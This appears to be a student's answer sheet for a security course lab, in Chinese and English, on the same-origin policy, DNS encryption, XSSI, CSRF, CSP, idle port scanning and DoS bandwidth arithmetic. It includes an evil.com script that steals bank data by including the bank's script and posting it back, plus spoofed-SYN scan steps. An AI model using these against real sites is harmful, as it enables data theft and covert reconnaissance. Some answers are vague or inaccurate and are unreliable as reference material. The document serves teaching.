

# Lab3

## 1

> **Same Origin Policy**
>
> We discussed in lecture how the DOM same-origin policy defines an origin as the triple (protocol, domain, port). Explain what would go wrong if the DOM same-origin policy were only defined by domain, and nothing else. Give a concrete example of an attack that a network attacker can do in this case, but cannot do when using the standard definition of the same-origin policy.

如果只考虑域名，攻击者可以利用不同协议或端口来窃取数据或发起恶意操作。例如，攻击者可以在恶意站点上加载目标站点的内容，窃取认证信息或敏感数据，也可能借助不安全的协议（如HTTP）来诱导用户泄露机密信息，而这些攻击在严格的同源策略定义下无法实施。

## 2

> Two new extensions to DNS have been recently ratified by the Internet standards community: DNS-over-HTTPS and DNS-over-TLS. The protocols work similarly to DNS except that DNS queries are sent over a standard encrypted HTTPS or TLS tunnel.
>
> a) What is one DNS attack that DNS-over-HTTPS protects against?
> b) What is one DNS attack that DNS-over-HTTPS does not protect against?
> c) Do DoH or DoT prevent DNS from being used as a DDoS amplifier? Why or why not?
> d) Do DoH or DoT protect against DNS rebinding attacks? Why or why not?

### a)
DNS 劫持攻击

### b)
DNS 缓存投毒攻击

### c)
不能，因为攻击者仍可通过大量发送伪造的请求来放大流量

### d)
不能，因为攻击者可以借助合法请求来操纵响应

## 3

> **Cross Site Script Inclusion (XSSI) Attacks**
>
> Consider a banking web site bank.com where after login the user is taken to a user information page: `https://bank.com/accountInfo.html`
>
> The page shows the user's account balances. Here `accountInfo.html` is a static page: it contains the page layout, but no user data. Towards the bottom of the page a script is included as:
>
> ```html
> <script src="//bank.com/userdata.js"></script> // (\*)
> ```
>
> The contents of `userdata.js` is as follows:
>
> ```javascript
> displayData({
>     "name": "John Doe",
>     "AccountNumber": 12345,
>     "Balance": 45
> })
> ```
>
> The function `displayData` is defined in `accountInfo.html` and uses the provided data to populate the page with user data.
>
> The script `userdata.js` is generated dynamically and is the only part of the page that contains user data. Everything else is static content.
>
> Suppose that after the user logs in to his or her account at bank.com the site stores the user's session token in a browser cookie.
>
> a) Consider user John Doe who logs into his account at `bank.com` and then visits the URL `https://evil.com/`. Explain how the page at `evil.com` can cause all of John Doe's data to be sent to `evil.com`. Please provide the code contained in the page at `evil.com`. The code can be pseudocode.
>
> b) How would you keep `accountInfo.html` as a static page, but prevent the attack from part (a)? You need only change line (\*) and `userdata.js`. Make sure to explain why your defense prevents the attack. (Hint: Try loading the user's data in a way that gives `bank.com` access to the data, but does not give `evil.com` access. In particular, `userdata.js` need not be a Javascript file)

### a)

```html
<script>
function displayData(data) {
    fetch("/log", {
        method: "POST",
        headers: {
            "Content-Type": 'application/json',
        },
        body: JSON.stringify(data),
    });
}
</script>
<script src="//bank.com/userdata.js"></script>
```

### b)

Remove `userdata.js` and replace it with a dynamic JSON file containing user's information. Remember to add proper CORS headers.

`userdata.json`:

```json
{
    "name": "John Doe",
    "AccountNumber": 12345,
    "Balance": 45
}
```

`accountInfo.html`:

```html
<script>
fetch("/userdata.json").then(r => r.json()).then(data => displayData(data));
</script>
```

## 4

> **CSRF Defenses**
>
> a) In class we discussed Cross Site Request Forgery (CSRF) attacks against websites that rely solely on cookies for session management. Briefly explain a CSRF attack on such a site.
>
> b) A common CSRF defense places a token in the DOM of every page (e.g., as a hidden form element) in addition to the cookie. An HTTP request is accepted by the server only if it contains both a valid HTTP cookie header and a valid token in the POST parameters. Why does this prevent the attack from part (a)?
>
> c) One approach to choosing a CSRF token is to choose one at random. Suppose a web server chooses the token as a fresh random string for every HTTP response. The server checks that this random string is present in the next HTTP request for that session. Does this prevent CSRF attacks? If so, explain why. If not, describe an attack.
>
> d) Another approach is to choose the token as a fixed random string chosen by the server. That is, the same random string is used as the CSRF token in all HTTP responses from the server over a given time period. Does this prevent CSRF attacks? If so, explain why. If not, describe an attack.
> e) Why is the Same-Origin Policy important for the cookie-plus-token defense?

### a)
- 在仅依赖于 cookie 进行会话管理的网站上，用户在登录后会获得一个会话 cookie，该 cookie 用于标识用户的会话状态。当用户进行操作时，例如点击一个链接或提交一个表单，浏览器会自动发送包含会话 cookie 的 HTTP 请求到服务器，以验证用户的身份。

- CSRF 攻击利用了这种机制，攻击者可以诱使受害者在已登录的网站上执行恶意操作，而无需知道受害者的凭证。攻击者可以通过构造一个恶意网页或电子邮件，其中包含一个指向目标网站的请求，诱使受害者点击该链接或打开该邮件。一旦受害者执行了这个操作，浏览器会自动发送包含会话 cookie 的请求到目标网站，从而使攻击成功。

### b)
- 攻击者无法伪造包含有效 CSRF 令牌的请求。由于服务器要求在 HTTP 请求中同时包含有效的 HTTP cookie 头和有效的 CSRF 令牌，攻击者无法伪造这两者同时存在的请求。即使攻击者成功伪造了包含会话 cookie 的请求，但由于缺少有效的 CSRF 令牌，服务器会拒绝这个请求。

- CSRF 令牌是与用户会话相关的，每个用户会话都有一个独一无二的 CSRF 令牌。这意味着即使攻击者能够获取到某个用户的 CSRF 令牌，但由于该令牌只对应特定用户的会话，攻击者无法将其用于对其他用户的攻击。通过在 DOM 中嵌入一个随机令牌并进行验证，服务器能够有效地防御 CSRF 攻击，因为攻击者无法窃取该令牌。

### c)
- 每次响应都生成一个新令牌可以防御 CSRF 攻击，因为攻击者无法预知下次请求的令牌。

### d)
- 不能有效地防止 CSRF 攻击。攻击者可以定期向目标网站发起请求并获取最新的 CSRF 令牌，由于 CSRF 令牌是固定的并且在一段时间内保持不变，攻击者可以利用这个固定的 CSRF 令牌来伪造用户操作，利用用户的会话来执行未经授权的操作，如转账、更改密码等。

### e)
- 通过实施同源策略，浏览器可以阻止恶意网站访问用户的 Cookie 和令牌，从而有效地防止 CSRF 攻击。通过同源策略，浏览器可以阻止恶意脚本访问不同源的资源，防止 XSS 攻击，保护用户的敏感信息安全。如此防止网站之间共享用户的敏感信息，从而增强用户的隐私保护。

## 5

> Recall that content security policy (CSP) is an HTTP header sent by a web site to the browser that tells the browser what it should and should not do as it is processing the content. The purpose of this question is to explore a number of CSP directives. Please use the CSP [specification](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to look up the definition of the directives in the questions below.
>
> a) Explain what the following CSP header does: `Content-Security-Policy: script-src 'self'`; What is the purpose of this CSP directive? What attack is it intended to prevent?
>
> b) What does the following CSP header do: `Content-Security-Policy: frame-ancestors 'none'`; What attack does it prevent?
>
> c) What does the following CSP header do: `Content-Security-Policy: sandbox 'allow-scripts'`; Suppose a page loaded from the domain `www.xyz.com` has the sandbox CSP header, as above. This causes the page to be treated as being from a special origin that always fails the same-origin policy, among other restrictions. How does this impact the page's ability to read cookies belonging to `www.xyz.com` using Javascript? Give an example where a web site might want to use this CSP header.

### a)

- Only allow external scripts from the same origin.
- XSS.

### b)

- Do not allow this page to be embeded in another page, using an `<iframe>` for example.
- Clickjacking etc.

### c)

- It enables script execution while applying all other sandbox restrictions.
- Scripts won't be able to read cookies from `www.xyz.com`, since the page is treated as being from a special origin and sop would always fail.
- Example: A blogging platform where users can create accounts to write HTML/JavaScript-based posts. The platform can use the sandboxing feature to display users' posts in a controlled environment, minimizing the risk of script-based attacks impacting other users or the main site.

## 6

> **Stealth Port Scanning**
>
> Recall that the IP packet header contains a 16-bit identification field that is used for assembling packet fragments. IP mandates that the identification field be unique for each packet for a given `(SourceIP,DestIP)` pair. A common method for implementing the identification field is to maintain a single counter that is incremented by one for every packet sent. The current value of the counter is embedded in each outgoing packet. Since this counter is used for all connections to the host we say that the host implements a global identification field.
>
> a) Suppose a host $P$ (whom we'll call the Patsy for reasons that will become clear later) implements a global identification field. Suppose further that $P$ responds to ICMP ping requests. You control some other host $A$. How can you test if $P$ sent a packet to anyone (other than $A$) within a certain one minute window? You are allowed to send your own packets to $P$.
>
> b) Your goal now is to test whether a victim host $V$ is running a server that accepts connections to port $n$ (that is, test if $V$ is listening on port $n$). You wish to hide the identity of your machine $A$ and therefore $A$ cannot directly send a packet to $V$, unless that packet contains a spoofed source IP address. Explain how to use the patsy host P to test if $V$ accepts connections to port $n$.
>
> Hint: Recall the following facts about TCP:
>
> - A host that receives a SYN packet to an open port $n$ sends back a SYN/ACK response to the source IP.
> - A host that receives a SYN packet to a closed port $n$ sends back a RST packet to the source IP.
> - A host that receives a SYN/ACK packet that it is not expecting sends back a RST packet to the source IP.
> - A host that receives a RST packet sends back no response.

### a)

1. Ping $P$ and record the id from response header as $x$
2. Wait a minute
3. Ping $P$ again and record the id from response header as $y$
4. If $y\equiv x+1\mod 2^{16}$, then $P$ most likely hasn't sent a packet to anyone; If not, $P$ definitely has sent a packet to someone.

### b)

1. Ping $P$ and record the id from response header as $x$
2. Send $V$ a SYN packet on port $n$ with spoofed source IP = $P$
3. Wait some time, ping $P$ again and record the id from response header as $y$
4. If $y\equiv x+1\mod 2^{16}$, then the port $n$ is not open; If $y\equiv x+2\mod 2^{16}$, the port is most likely open.



## 7

> **Denial of Service attacks**
>
> a) Using a TCP SYN spoofing attack, the attacker aims to flood the table of TCP connection requests on a system so that it is unable to respond to legitimate connection requests. Consider a server system with a table for 256 connection requests. This system will retry sending the SYN-ACK packet five times when it fails to receive an ACK packet in response, at 30 second intervals, before purging the request from its table. Assume that no additional countermeasures are used against this attack and that the attacker has filled this table with an initial flood of connection requests. At what rate must the attacker continue to send TCP connection requests to this system in order to ensure that the table remains full? Assuming that the TCP SYN packet is 40 bytes in size (ignoring framing overhead), how much bandwidth does the attacker consume to continue this attack?
>
> b) In order to implement a DNS amplification attack, the attacker must trigger the creation of a sufficiently large volume of DNS response packets from the intermediary to exceed the capacity of the link to the target organization. Consider an attack where the DNS response packets are 500 bytes in size (ignoring framing overhead). How many of these packets per second must the attacker trigger to flood a target organization using a 0.5-Mbps link? A 2-Mbps link? Or a 10-Mbps link? If the DNS request packet to the intermediary is 60 bytes in size, how much bandwidth does the attacker consume to send the necessary rate of DNS request packets for each of these three cases?

### a)
计算维持攻击的最低速率:
- 每个连接请求在表中的最大存活时间 = 5 次重试 * 30 秒/次 = 150 秒。
- 为保持表满，每秒需要填充的新连接请求 = 表容量/最大存活时间 = 256/150 ≈ 1.71 个请求/秒。

计算带宽消耗:
- 每个 TCP SYN 包的大小 = 40 字节。
- 每秒发送的数据量 = 请求速率 * 每个请求的大小 = 1.71 个请求/秒 * 40 字节/请求 = 68.4 字节/秒。
- 将字节转换为比特，带宽 = 68.4 字节/秒 * 8 = 547.2 比特/秒 = 0.5472 kbps。

### b)
计算 DNS 响应包的速率:
- 为淹没 0.5 Mbps 链接，每秒需要的 DNS 响应包 = 0.5 Mbps/(500 字节 * 8 比特/字节) ≈ 125 包/秒。
- 为淹没 2 Mbps 链接，每秒需要的 DNS 响应包 = 2 Mbps/(500 字节 * 8 比特/字节) ≈ 500 包/秒。
- 为淹没 10 Mbps 链接，每秒需要的 DNS 响应包 = 10 Mbps/(500 字节 * 8 比特/字节) ≈ 2500 包/秒。

计算攻击者发送 DNS 请求包的带宽消耗:
- DNS 请求包的大小 = 60 字节。
- 为淹没 0.5 Mbps 链接，带宽 = 125 包/秒 * 60 字节/包 * 8 比特/字节 = 60000 比特/秒 = 60 kbps。
- 为淹没 2 Mbps 链接，带宽 = 500 包/秒 * 60 字节/包 * 8 比特/字节 = 240000 比特/秒 = 240 kbps。
- 为淹没 10 Mbps 链接，带宽 = 2500 包/秒 * 60 字节/包 * 8 比特/字节 = 1200000 比特/秒 = 1200 kbps。
